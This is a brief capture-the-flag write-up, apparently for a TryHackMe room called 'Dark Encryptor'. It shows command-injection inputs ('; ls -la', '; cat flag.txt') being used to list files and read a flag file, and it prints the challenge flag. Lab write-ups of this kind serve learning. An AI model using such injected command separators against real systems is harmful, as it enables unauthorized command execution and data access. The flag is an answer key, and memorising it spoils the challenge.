



### Dark Encryptor

**Description**  


#### **Solution Steps:**
I started by trying simple commands to check if there is any command injection vulnerability.

```bash
; ls -la
```



So I found the ```flag.txt```

Now to view that file i tried this command:

```bash
&& cat flag.txt
```


But this didn't work. So I tried a different command:

```bash
; cat flag.txt
```


Flag: ```THM{pgp_cant_stop_me}```